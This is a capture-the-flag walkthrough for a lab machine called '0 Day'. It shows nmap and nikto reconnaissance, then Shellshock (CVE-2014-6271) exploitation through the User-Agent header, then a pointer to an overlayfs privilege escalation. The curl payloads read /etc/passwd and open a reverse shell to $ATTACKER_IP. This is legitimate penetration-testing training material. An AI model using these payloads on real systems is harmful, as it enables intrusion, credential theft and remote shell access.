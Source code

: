 
# ***0 Day***

We'll start with nmap scan:

```bash
$ sudo nmap 10.10.235.230 -Pn -p- -A -vv -T4 --script discovery,vuln -oN nmap-scan --min-parallelism 55
```

And once an http port pops out, we'll start nikto scan in parallel:

```bash
$ nikto -h 10.10.235.230
```

Pay attention to nikto's result:

```
+ Uncommon header '93e4r0-cve-2014-6278' found, with contents: true
+ OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
```

The exploit for CVE-2014-6271 can be found on [GitHub](https://github.com/opsxcq/exploit-CVE-2014-6271).

To check if it's vulnerable, send this request:

```bash
$ curl http://10.10.235.230/cgi-bin/test.cgi -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'"
```

And we got /etc/passwd file in responce!

Read user flag:

```bash
$ curl http://10.10.235.230/cgi-bin/test.cgi -H "user-agent: () { :; }; echo; echo; /bin/sh -c 'cat /home/ryan/user.txt'"
```

Get initial foothold with this payload:

```
$ curl http://10.10.235.230/cgi-bin/test.cgi -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/$ATTACKER_IP/$ATTACKER_PORT 0>&1'"
```

---

## *Privesc*

Launch linpeas.sh. You'll see that the machine is vulnerable to overlayfs 
(CVE-2015-1328).

Export this path:

```bash
$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

compile exploit and gaiin root.
